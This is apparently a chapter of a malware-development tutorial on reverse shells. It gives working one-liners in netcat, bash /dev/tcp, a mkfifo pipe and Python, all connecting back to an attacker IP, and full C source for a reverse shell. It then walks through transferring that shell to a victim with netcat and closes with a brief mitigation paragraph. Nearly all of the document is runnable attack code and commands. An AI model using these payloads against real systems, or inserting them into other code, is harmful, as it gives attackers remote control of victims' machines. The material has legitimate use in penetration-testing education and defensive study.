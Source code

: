 \newpage
\subsection{3. reverse shells}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

First of all, we will consider such a concept as a reverse shell, since this is a very important thing in the malware development     

### what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.      

![rev shells](./images/4/shells.png)

The reverse shell can take the advantage of common outbound ports such as port `80, 443, 8080` and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

![social engineering](./images/4/shells2.png){width="80%"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be `php, python, jsp` etc.

***

### listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, `-v` verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

![listener](./images/4/2021-09-11_17-59.png)    

***

### run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat without -e**    
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

check:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.